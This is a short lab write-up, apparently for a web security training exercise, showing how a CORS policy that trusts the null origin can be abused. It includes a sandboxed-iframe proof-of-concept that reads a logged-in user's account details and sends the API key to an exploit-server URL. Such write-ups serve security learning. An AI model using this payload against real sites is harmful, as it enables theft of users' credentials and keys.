



Here is the request that retrieves the API key:


Let's try specifying `Origin: null`:

We can see that the header appears, with `null` as the type.

In order to create a `null` origin, we have to add an `iframe` (I did not know this, seems like the `iframe` makes the origin behave as `null`).

We have to create a PoC using `iframe`:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

Sending this script leads us to the leakage of the API key as the origin was null and it accepts `null` origins:
